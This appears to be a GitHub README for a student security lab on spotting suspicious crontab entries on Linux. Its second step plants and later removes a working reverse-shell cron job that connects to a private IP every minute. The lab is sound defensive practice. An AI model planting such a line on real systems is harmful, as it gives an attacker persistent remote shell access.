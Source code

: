 # Crontab Monitoring for Suspicious Scheduled Tasks

This project demonstrates how to monitor and detect suspicious or malicious scheduled tasks on a Linux system using `crontab`.

##  **Tools Used**

- **Crontab**: A time-based job scheduler in Unix-like systems.
- **Kali Linux**: Host operating system.

---

##  **Steps Taken**

###  1. **View Current User’s Crontab**

Checked the current user's scheduled jobs to verify if any exist:

```bash
crontab -l
```

If no jobs are listed, it means there are no scheduled tasks for the current user.

---

###  2. **Create a Suspicious Cron Job**

Edited the current user's crontab to simulate an unauthorized task (e.g., reverse shell or hidden script):

```bash
crontab -e
```

Inside the editor, added a suspicious job such as:

```
* * * * * /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

> ❗ _This job mimics a reverse shell attempting to connect to a remote server every minute._

---

###  3. **List and Analyze Crontab Again**

Ran the command to list current jobs and reviewed any potentially harmful entries:

```bash
crontab -l
```

Screenshot was taken at this stage.

---

###  4. **Remove Suspicious Entry**

Removed the suspicious cron entry by opening the editor again and deleting the line:

```bash
crontab -e
```

Saved and exited to confirm changes.

---

##  **Screenshot**

![Suspicious crontab job](./screenshot.png)

---

##  **Summary**

Crontab entries can be leveraged by attackers to maintain persistence or automate malicious behavior. This project highlights how routine monitoring of cron jobs can help detect unauthorized tasks early. Regular audits are essential to prevent silent backdoors and maintain system integrity.
